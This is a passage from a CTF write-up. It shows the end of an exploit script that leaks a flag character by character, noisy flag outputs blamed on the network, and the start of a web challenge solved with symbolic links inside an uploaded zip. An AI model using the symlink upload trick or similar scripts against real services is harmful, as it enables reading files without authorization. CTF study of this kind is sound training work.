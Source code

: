         idx += 1
        flag += chr(guess)
        print(flag)
    print(flag)

    r.interactive()
    ```
    * <font color="FF0000">Note that</font>: The exploit program will be affected by the internet connection and caused the result is wrong like this:
    ```
    FLA!{CORORO_f8b7d5d23ad03512P6687384b7a2a/00}
    'LAG{CORORO_f8b7d5d23ad03512d6687384b7a2a500}
    *LAG{C*RORO_f8b7d5d23ad03512d6687384b7a2a500}
    FLAG{CO#/RO_f8b7d5d23ad03512d6687384b7a2a500}
    FLAG{CAMORO_f8b7d5d/3ad03512d6687384!7a2a500xX
    ```
    Thus, you can run much more times to compare the result together so that you can patch up the flag correctly.
#### Reference
[EOF 2023](/SkxNKJBqi#how2_know_revenge)


## Web
### Share
#### Description
* Challenge [URL](https://share.ctf.zoolab.org/)

* Folder structure:
    ```
    Share
    ├── Web
    │   ├── src
    │   │   ├── static
    │   │   │    └── {None}
    │   │   ├── template
    │   │   │    ├── index.html
    │   │   │    └── login.html
    │   │   └── app.py
    │   └── Dockerfile
    ├── docker-compose.yaml
    └── flag
    ```
* This website function is let the user can upload compress folder <font color="FF0000">(\*.zip)</font> and the compress folder must contains a <font color="FF0000">`index.html`</font> file so that it can uncompress the folder then redirect to this new page.
* To solve this question, we must use [<font color="FF0000">**`symbolic link`**</font>](https://youtu.be/jdZsO2GAf2I)

#### Observation
* Main program first - **`app.py`**
This part is aim to unzip the compress folder and redirect to new page - `index.html` that the user provide
    ```python!
    ...
    @app.route('/upload', methods=['POST'])
    def upload_file():
      if 'user' not in session:
        return 'Login first'
      if 'file' not in request.files or not request.files['file'].filename:
        return 'Missing file'
